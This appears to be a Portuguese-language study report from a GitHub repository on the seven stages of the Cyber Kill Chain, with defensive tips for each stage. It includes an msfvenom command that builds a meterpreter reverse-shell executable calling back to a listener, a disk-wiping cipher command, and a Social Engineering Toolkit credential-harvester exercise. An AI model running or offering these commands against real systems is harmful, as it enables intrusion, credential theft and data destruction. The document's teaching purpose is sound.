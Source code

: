 Cyber Kill Chain - Full Report

Objetivo
Entender as 7 etapas que hackers usam em ataques avançados (da preparação ao objetivo final) e como se defender em cada fase.

As 7 Etapas da Cyber Kill Chain

1. Reconhecimento (Information Gathering)

O que acontece:
O atacante coleta informações públicas sobre o alvo (ex: e-mails, redes sociais, portas abertas).

Ferramentas usadas:
whois empresa.com  # Mostra dono do domínio
nmap -sV 192.168.1.1  # Verifica portas abertas

Como se proteger:
Limitar informações públicas em redes sociais.
Usar firewalls para esconder portas desnecessárias.

2. Armamento (Weaponization)

O que acontece:
O atacante cria/customiza malware para explorar vulnerabilidades do alvo.

Exemplo:
Anexo de e-mail com documento Word malicioso.

Como se proteger:
Treinar colaboradores para não abrir anexos suspeitos.
Usar antivírus com detecção em tempo real.

3. Entrega (Delivery)

O que acontece:
O malware é enviado por e-mail, USB infectado ou site falso.

Ferramentas usadas:
Phishing kits (para criar e-mails falsos).

Como se proteger:
Verificar URLs antes de clicar (passar o mouse para ver o link real).
Bloquear dispositivos USB desconhecidos.

4. Exploração (Exploitation)

O que acontece:
O malware explora uma vulnerabilidade no sistema (ex: programa desatualizado).

Exemplo de comando:
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 -f exe > malware.exe

Como se proteger:
Atualizar todos os softwares regularmente.

5. Instalação (Installation)

O que acontece:
O malware se instala no sistema para manter acesso persistente.

Técnica comum:
Criar backdoor no Registro do Windows.

Como se proteger:
Monitorar processos desconhecidos no Gerenciador de Tarefas.

6. Comando e Controle (C2)

O que acontece:
O atacante controla o malware remotamente.

Ferramentas:
Metasploit Framework.

Como se proteger:
Bloquear conexões suspeitas no firewall.

7. Ações no Objetivo

O que acontece:
Roubo de dados, criptografia de arquivos (ransomware) ou destruição do sistema.

Exemplo:
cipher /w:C:\  # Apaga dados permanentemente (Windows)

Como se proteger:
Fazer backups frequentes.

Exercício Prático

Cenário: Simular um ataque phishing com o SET (Social Engineering Toolkit):

setoolkit
> 1 (Social-Engineering Attacks)
> 2 (Website Attack Vectors)
> 3 (Credential Harvester)

Lições Aprendidas
Ataques são planejados em etapas – interromper qualquer fase pode parar o ataque.
Treinamento de usuários é tão importante quanto firewalls.

💡 Dica Extra
Para se aprofundar:
Livro: "The Cuckoo's Egg" (sobre rastreamento de hackers).
Ferramenta: MITRE ATT&CK (mapeia táticas de ataque).